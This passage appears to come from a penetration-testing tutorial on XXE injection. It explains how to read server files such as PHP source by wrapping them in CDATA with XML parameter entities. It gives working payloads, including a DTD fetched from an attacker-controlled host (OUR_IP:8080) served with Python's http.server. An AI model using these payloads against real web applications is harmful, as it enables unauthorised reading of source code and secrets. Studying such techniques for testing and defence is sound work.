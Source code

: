 We can utilize the following method to extract any kind of data (including binary data) for any web application backend.

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

To start, we must first define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the &joined; entity, it should contain our escaped data. However, there will be times that this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined. First create a DTD file using the following value:
```xml
<!ENTITY joined "%begin;%file;%end;">
```
Then start a local server to host the file using Python.
```bash
python3 -m http.server 8080
```

Now we can reference our external entity and print the `&joined` entity we defined above.
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8080/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```